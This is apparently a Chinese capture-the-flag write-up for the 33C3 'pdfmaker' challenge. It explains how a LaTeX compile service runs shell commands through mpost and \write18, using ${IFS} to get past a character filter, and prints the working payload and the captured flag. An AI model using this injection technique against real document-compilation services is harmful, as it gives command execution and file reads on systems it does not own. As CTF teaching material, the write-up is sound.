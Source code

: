```

  pdfmaker = PdfMaker()
  pdfmaker.handle()

```

稍微研究一下代码，可以发现几个功能
1、create可以创建log, tex, sty, mp, bib后缀的文件，并写入内容
2、内容会经过一次过滤`"..", "*", "/", "\\x"`，这些内容都会被过滤掉
3、show方法可以显示后缀为log, tex, sty, mp, bib的内容
4、compile方法可以把tex后缀的文件编译为pdf，遵循的是pdflatex语法

具体语法可以看
[http://theoval.cmp.uea.ac.uk/~nlct/latex/pdfdoc/pdfdoc/pdfdoc.html](http://theoval.cmp.uea.ac.uk/~nlct/latex/pdfdoc/pdfdoc/pdfdoc.html)

## 命令执行读文件 ##

事实上，latex语法中是可以执行shell命令的，具体可以看这篇文章

[https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

类似于这样`\immediate\write18{ls>out.log}`，无奈的是，这个方法已经被禁用了

幸运的是，我们还可以创建md格式的` create mp test`

```
verbatimtex
\documentclass{minimal}
\begin{document}
etex
beginfig (1)
label(btex blah etex, origin);
endfig;
\end{document}
bye
\q
```

然后写入tex文件，编译执行命令，有个值得注意的是如果直接执行`cat file > xxx.log`并不会执行，其中空格必须使用`${IFS}`来替换，调用bash来执行命令，具体如下：
```
 create tex lol

\documentclass{article}
\begin{document}
\immediate\write18{mpost -ini \"-tex=bash -c (cat${IFS}$(find${IFS}.))>ls.log\" \"test.mp\"}
\end{document}
\q
```

接着编译，查看对应的log，就可以得到flag了

```
33C3_pdflatex_1s_t0t4lly_s3cur3!
```

